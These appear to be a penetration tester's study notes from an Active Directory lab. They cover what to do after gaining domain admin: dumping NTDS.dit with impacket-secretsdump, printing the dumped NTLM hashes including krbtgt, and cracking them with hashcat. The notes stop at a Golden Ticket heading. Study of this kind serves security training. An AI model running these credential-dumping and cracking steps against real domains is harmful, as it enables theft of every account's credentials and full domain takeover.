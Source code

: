 ## We own the domain now what?  
In the event we manage to compromise Domain and there is still time in the engagement, we will continue to provide as much value to the client as possible.  

1. Dump NTDS.dit and crack passwords.
2. Enumerate further shares for sensitive information such as PII data and other findings so that this can be reported.
3. Create persistence in the event our main access is lost and also remember to remove rouge Domain Admin accounts.
4. Test for detections espicially for DA account creations. A good environment should detect these account creations.
5. Creating a Golden Ticket.

---

## 🚩 Dumping the NTDS.dit

### What is NTDS.dit?  
An extremely critical and highly sensitive database used to store AD data within Active Directory / Domain Controllers:
* user information
* gorup information
* security dscriptors
* password hashes

Using a **known domain admin account** we could use secretsdump and its switch of **-just-dc-ntlm** to dump out the DCs NTDS file. A successful Domain dump will contain a range of information from: SAM, credentials, domains, krbtgt, hashes, local account users, pc logins, and other accounts that may of been created from ipv6 / relayx + mitm6 relay attack.  

example:

    impacket-secretsdump / secretsdump 'impacket-secretsdump MARVEL.local/pparker:'Password1'@192.168.64.139 -just-dc-ntlm

using our malicious domain admin account hawkeye against the DC, we succesfully dump the local SAM and more importantly NTDS.dit file. From the dump we also see 'kerberos keys' and also the krbtgt which could be later leveraged in a kerberos ticket attack.

    impacket-secretsdump MARVEL.local/hawkeye:'Password1@'@192.168.64.138

![image](https://github.com/user-attachments/assets/dfe18c4b-7172-4012-8155-1c74bbd42f97)

Using -just-dc-ntlm with secretsdump will only dump out the NTDS.dit, filtering out the other data as the name implies.  

    root@kali:/home/kali# impacket-secretsdump MARVEL.local/hawkeye:'Password1@'@192.168.64.138 -just-dc-ntlm
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:2617733570dcba888a76e40359f8a359:::
    MARVEL.local\tstark:1103:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
    MARVEL.local\SQLService:1104:aad3b435b51404eeaad3b435b51404ee:f4ab68f27303bcb4024650d8fc5f973a:::
    MARVEL.local\fcastle:1105:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
    MARVEL.local\pparker:1106:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
    avrrDOsNBw:1109:aad3b435b51404eeaad3b435b51404ee:253a38577fe79301cf439d788dfa3850:::
    hawkeye:1110:aad3b435b51404eeaad3b435b51404ee:43460d636f269c709b20049cee36ae7a:::
    HYDRA-DC$:1000:aad3b435b51404eeaad3b435b51404ee:86757f6579150e5ef1901687a33b627b:::
    THEPUNISHER$:1107:aad3b435b51404eeaad3b435b51404ee:2338c61f1a4137c16acab764b8fe5022:::
    SPIDERMAN$:1108:aad3b435b51404eeaad3b435b51404ee:1d86510b8589eccf45424b657db6ab52:::
    [*] Cleaning up... 
    root@kali:/home/kali# 

Now that we have the NTLM hashes dumped out from the NTDS.dit, we should filter out the NT portions of the hashes in excel, place it in a .txt file and have it cracked with -m of 1000 (given they are just ntlm) using hashcat. With all the cracked passwords, we can place them back into excel to see the passwords to accounts and also for final reporting.  

![image](https://github.com/user-attachments/assets/bd6014ac-0ea6-472c-b1fb-27290f32b313)

    hashcat -m 1000 ntds111.txt 
    once finished
    hashcat -m 1000 ntds111.txt --show

![image](https://github.com/user-attachments/assets/8b8b4bfb-821c-449f-9edc-f909ce359101)

We can now apply the cracked passwords back to the excel and match the cracked passwords with the hashes through using =vlookup magic or bash script.   

### Note:  
ignore PC passwords, they are typically not going to be cracked and have low value in this scenario.

---

## 🚩 Golden Ticket Attacks  

### What is Golden Ticket Attacks?  

